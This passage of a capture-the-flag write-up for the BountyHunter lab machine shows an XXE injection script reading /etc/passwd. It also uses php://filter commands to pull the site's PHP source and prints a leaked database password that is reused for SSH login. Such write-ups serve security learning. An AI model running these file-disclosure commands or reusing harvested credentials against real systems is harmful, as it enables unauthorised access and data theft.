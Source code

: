 ```bash
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

As we can see, the XXE injection works, meaning we can abuse this to get the source files of this website.

```bash
[exyss@exyss BountyHunter]$ python scripts/xxe_inj.py php://filter/convert.base64-encode/resource=index.php --output-only | base64 -d > src/index.php

[exyss@exyss BountyHunter]$ python scripts/xxe_inj.py php://filter/convert.base64-encode/resource=portal.php --output-only | base64 -d > src/portal.php

[exyss@exyss BountyHunter]$ python scripts/xxe_inj.py php://filter/convert.base64-encode/resource=tracker_diRbPr00f314.php --output-only | base64 -d > src/tracker_diRbPr00f314.php

[exyss@exyss BountyHunter]$ python scripts/xxe_inj.py php://filter/convert.base64-encode/resource=db.php --output-only | base64 -d > src/db.php
```

Inside db.php we can find some admin credentials:

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

## Accessing the machine

As we saw in the output of the file `/etc/passwd` in the first XXE injection, there is an user called `development` with an home folder. We can try accessing it with SSH using the db password. The user flag is in the home dir with an useful "hint" left by the system admin:

```
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```
